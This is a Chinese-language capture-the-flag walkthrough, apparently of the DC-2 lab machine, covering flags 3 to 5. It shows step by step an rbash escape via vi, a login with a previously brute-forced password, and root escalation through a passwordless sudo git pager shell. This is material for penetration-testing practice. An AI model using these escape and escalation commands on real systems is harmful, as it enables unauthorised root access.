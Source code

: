 登陆后发现当前目录下存在flag3.txt，使用cat等命令都无法运行，尝试使用vi获得flag3.txt中的内容，得到flag3

```
flag3

Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
```

### flag4

根据flag3提示，还有jerry账户，查看/etc/passwd发现果然存在jerry账户

![image-20210914181801076](/assets/img/image-20210914181801076.png)

进行rbash逃逸，尝试发现/,sudo,cp命令都无法使用，尝试使用vi进行逃逸

```bash
vi test
:set shell=/bin/sh # 或者用/bin/bash
:shell

# 切换完成之后还要添加环境变量
export PATH=$PATH:/bin/
export PATH=$PATH:/usr/bin/
```

逃逸后尝试登录jerry，使用之前爆破的jerry密码

![image-20210914182458155](/assets/img/image-20210914182458155.png)

在/home/jerry下发现flag4.txt

![image-20210914182536908](/assets/img/image-20210914182536908.png)

```
flag4
Good to see that you've made it this far - but you're not home yet. 

You still need to get the final flag (the only flag that really counts!!!).  

No hints here - you're on your own now.  :-)

Go on - git outta here!!!!
```

### flag5

根据提示，使用git提权

运行sudo -l，发现不需要密码可以执行git命令

![image-20210914182955798](/assets/img/image-20210914182955798.png)

使用git提权，获得root权限

```bash
sudo git help status
!/bin/bash
```
